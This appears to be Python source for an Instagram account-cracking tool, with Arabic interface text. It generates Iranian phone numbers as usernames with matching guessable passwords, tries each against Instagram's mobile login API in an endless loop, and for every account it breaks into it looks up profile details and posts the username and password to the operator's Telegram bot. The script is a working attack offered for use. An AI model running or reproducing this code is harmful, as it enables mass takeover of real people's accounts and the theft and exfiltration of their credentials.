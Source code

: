 
import os
os.system('clear')
try:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
except ImportError:
    os.system('pip install time')
    os.system('pip install webbrowser ')
    os.system('pip install random')
    os.system('pip install requests')
    os.system('pip install user_agent')
    os.system('pip install json')
    os.system('pip install secrets')
    os.system('pip install sys')
    os.system('clear')
    from time import sleep
    import time, webbrowser, random, requests
    from uuid import uuid4
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
else:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
    os.system('clear')
    aa = 0
    zz = 0
    E = '\x1b[1;31m'
    G = '\x1b[1;32m'
    S = '\x1b[1;33m'
    Z = '\x1b[1;31m'
    X = '\x1b[1;33m'
    Z1 = '\x1b[2;31m'
    F = '\x1b[2;32m'
    A = '\x1b[2;39m'
    C = '\x1b[2;35m'
    B = '\x1b[2;36m'
    Y = '\x1b[1;34m'
    import time
    timee = time.asctime()
    t = time.localtime()
    current_time = time.strftime('%H:%M:%S', t)

    def a(z):
        for e in z:
            sys.stdout.write(e)
            sys.stdout.flush()
            sleep(0)


    a(f""" _                 _
 (_)  _ __    ___  | |_    __ _
 | | | '_ \  / __| | __|  / _` |
 | | | | | | \__ \ | |_  | (_| |
 |_| |_| |_| |___/  \__|  \__,_|


    ____   ____    _
   / __ \ | ___|  / |  _   _
  / / _` | ___ \  | | | | | |
 | | (_| | ___) | | | | |_| |
  \ \__,_| ____/  |_|  \__,_|  _____   _____
   \____/                    |_____| |_____| """)
    sleep(1.0)
    print('\n\n')
    a(G + ' \n\nتوكن ')
    print('\n')
    tok = input(S + '     >> ' + C)
    sleep(1)
    os.system('clear')
    a(A + ' ايدي ')
    print('\n')
    ID = input(A + '     >> ' + C)
    sleep(0.1)
    os.system('clear')
    start_msg = requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=بسم الله ..... ⏸️").json()
    id_msg = start_msg['result']['message_id']

    def code_joo(userQ, password):
        cookie = secrets.token_hex(8) * 2
        head = {'HOST':'www.instagram.com', 
         'KeepAlive':'True', 
         'user-agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36', 
         'Cookie':cookie, 
         'Accept':'*/*', 
         'ContentType':'application/x-www-form-urlencoded', 
         'X-Requested-With':'XMLHttpRequest', 
         'X-IG-App-ID':'936619743392459', 
         'X-Instagram-AJAX':'missing', 
         'X-CSRFToken':'missing', 
         'Accept-Language':'en-US,en;q=0.9'}
        url_id = f"https://www.instagram.com/{userQ}/?__a=1"
        req_id = requests.get(url_id, headers=head).json()
        name = str(req_id['graphql']['user']['full_name'])
        id = str(req_id['graphql']['user']['id'])
        followes = str(req_id['graphql']['user']['edge_followed_by']['count'])
        following = str(req_id['graphql']['user']['edge_follow']['count'])
        re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")
        ree = re.json()
        dat = ree['data']
        t = time.localtime()
        current_time = time.strftime('%H:%M:%S', t)
        joo3 = f"    تع صدتلك حساب    \n ︎\n .. الاسـم   : {name}\n .الـيـوزر: {userQ}\n .. الرمــز  : {password}\n .. المتابـعــين : {followes}\n .. المتابعهـم : {following}\n .. تاريـخ : {dat}\n .. الوقت : {current_time}\n .⛔. 𝙩𝙝𝙞𝙨 𝙄𝙨 𝙏𝙝𝙚 𝙃𝙪𝙣𝙩 𝙉𝙪𝙢𝙗𝙚𝙧 [{zz}] \n ︎.<•>︎  مبروك\n"
        tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=\n {joo3} \n"
        i = requests.post(tlg)
        print(G + joo3)


    url = 'https://b.i.instagram.com/api/v1/accounts/login/'
    headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)'}
    
    print(G + 'The Tool PROGRAM ALI 🧪 ')
    sleep(0)
    user = '0987654321'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+98917' + us
        password = '0917' + us
        from uuid import uuid4
        uid = str(uuid4())
        data = {'uuid':uid, 
         'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req = requests.post(url, headers=headers, data=data)
        if 'logged_in_user' in req.json():
            zz += 1
            userQ = req.json()['logged_in_user']['username']
            code_joo(userQ, password)
        elif '"message":"challenge_required","challenge"' in req.json():
            print(S + 'username S ==> : ' + username + ': password ==> : ' + password)
        else:
            requests.post(f"https://api.telegram.org/bot{tok}/editmessagetext?chat_id={ID}&message_id={id_msg}&text= ali is Here\n\n THIS TOOL Hc ALISH ⭐\n->•✔️\n√| انستا @51u__\
  \n->• Hunted✔️ [{zz}]\n->•\u200aNot hunted❌ [{aa}]")
            print(E + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
